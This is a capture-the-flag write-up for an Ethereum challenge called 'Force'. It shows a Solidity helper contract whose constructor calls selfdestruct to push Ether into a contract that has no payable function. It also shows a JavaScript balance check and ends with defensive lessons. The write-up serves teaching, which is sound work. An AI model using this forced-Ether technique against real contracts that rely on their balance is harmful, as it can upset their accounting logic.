 # Level 7: Force

## Challenge Overview

This challenge demonstrates how a smart contract can receive Ether even if it does not implement a `payable` function or fallback method.  
The goal is to force Ether into the contract by leveraging the `selfdestruct` function.

## Goal

- Force the `Force` contract to accept Ether.

## Solution

### 1. Understand the Issue

The `Force` contract does not contain any `payable` function or fallback function,  
so it cannot directly receive Ether through standard transactions.  
However, the `selfdestruct` function in Solidity allows a contract to send Ether to another address regardless of its code.

### 2. Deploy a Helper Contract

Create and deploy a helper contract with a `selfdestruct` function that will force Ether into the `Force` contract:

```solidity
contract ForceAttack {
    constructor(address payable _target) payable {
        selfdestruct(_target);
    }
}
```

### 3. Steps to Execute

- Call the constructor, which immediately triggers the `selfdestruct` function  
  and sends all the Ether to the `Force` contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract ForceAttack {
    constructor(address payable _force) payable {
        // As soon as this contract is created,
        // destroy it and send all its ETH to _force
        selfdestruct(_force);
    }
}
```

### 4. Verify the Balance

Confirm that the `Force` contract now holds the Ether:

```javascript
const bal = await getBalance(contract.address);
console.log("Force balance:", fromWei(bal), "ETH"); // > 0
```

---

## Lessons Learned

- Even if you don’t expose any payable entry points, Ether can still be forced into you.
- Always check `address(this).balance` dynamically rather than assuming no Ether can ever arrive.
- On EIP-6780 and future forks may further limit `selfdestruct` so keep an eye on upcoming upgrades.
